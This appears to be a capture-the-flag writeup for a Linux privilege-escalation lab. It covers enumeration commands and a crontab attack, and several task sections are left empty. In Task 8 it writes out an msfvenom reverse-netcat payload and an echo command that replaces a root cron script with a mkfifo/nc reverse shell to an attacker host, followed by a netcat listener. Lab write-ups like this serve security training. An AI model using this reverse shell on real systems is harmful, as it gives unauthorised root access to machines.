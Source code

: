# Common Linux Privesc Writeup

## [Task 1 - 3]

Follow The Readings Provided

## [Task 4] Enumeration

### 1 SSH into machine with the provided credentials 

username = user3
password = password

- ssh user3@10.10.x.x
![1](https://user-images.githubusercontent.com/69840849/90487228-85318c80-e17d-11ea-97a6-4fae52b8f968.png)

### 2 What is the target's hostname?

- hostname
![1](https://user-images.githubusercontent.com/69840849/90487310-a4c8b500-e17d-11ea-8c13-e124db0080e5.png)
 
### 3 Look at the output of /etc/passwd how many "user[x]" are there on the system?

- cat /etc/passwd
![1](https://user-images.githubusercontent.com/69840849/90487951-7f887680-e17e-11ea-9a89-695bbae5f50e.png)

### 4 How many available shells are there on the system?

- cat /etc/shells
![1](https://user-images.githubusercontent.com/69840849/90487873-654e9880-e17e-11ea-930b-d8a76d45b608.png)

### 5 What is the name of the bash script that is set to run every 5 minutes by cron? 

[ ! ] You should be able to find the name of the .sh file
- cat /etc/crontab
![1](https://user-images.githubusercontent.com/69840849/90487765-405a2580-e17e-11ea-917b-2c482e84784c.png)

### 6 What critical file has had its permissions changed to allow some users to write to it?

- ls -la /etc/passwd
![1](https://user-images.githubusercontent.com/69840849/90488017-9929be00-e17e-11ea-8e7b-2a970579333e.png)

### 7 Enumeration Completed

## [Task 5] Abusing SUID/GUID Files

## [Task 6] Exploiting Writeable /etc/passwd 

## [Task 7] Escaping Vi Editor 

## [Task 8] Exploiting Crontab 

### 1 Switch user to User4 with the provided credentials 

username = user4
password = password

- su user4
![1](https://user-images.githubusercontent.com/69840849/90488480-53b9c080-e17f-11ea-8e7b-a8fcd383bbd4.png)

### 2 Msfvenom
-

### 3 What is the flag to specify a payload in msfvenom?

[ ! ] You can find the answer by using 
- msfvenom -h

### 4 Create a payload using: 

[ ! ] Reminder, LOCALIP depends on your own machine, I will be using 10.10.0.0 as an example! In this situation, we can use port 8888. We can use another port number such as 1234 as long as the netcat listener is also set to 1234

- msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R
![1](https://user-images.githubusercontent.com/69840849/90489384-8f08bf00-e180-11ea-9dcc-e3927b6bf169.png)

### 5 What directory is the "autoscript.sh" under?

- cat /etc/crontab
![1](https://user-images.githubusercontent.com/69840849/90487765-405a2580-e17e-11ea-917b-2c482e84784c.png)

### 6 Lets replace the contents of the file with our payload using: "echo [MSFVENOM OUTPUT] > autoscript.sh"

- echo "mkfifo /tmp/qjqlxog; nc 10.10.0.0 8888 0</tmp/qjqlxog | /bin/sh >/tmp/qjqlxog 2>&1; rm /tmp/qjqlxog" > autoscript.sh


### 7 After copying the code into autoscript.sh file we wait for cron to execute the file, and start our netcat listener using:
- nc -lnvp 8888
![1](https://user-images.githubusercontent.com/69840849/90490101-895fa900-e181-11ea-8166-ca5a4a637815.png)


### 8 After about 5 minutes, you should have a shell as root land in your netcat listening session! Congratulations! 

[ ! ] You may use the follow to check if it worked
- whoami
![1](https://user-images.githubusercontent.com/69840849/90490473-01c66a00-e182-11ea-88c6-f84af16895ba.png)


## [Task 9] Exploiting PATH Variable 

## [Task 10] Expanding Your Knowledge 

Follow The Readings Provided
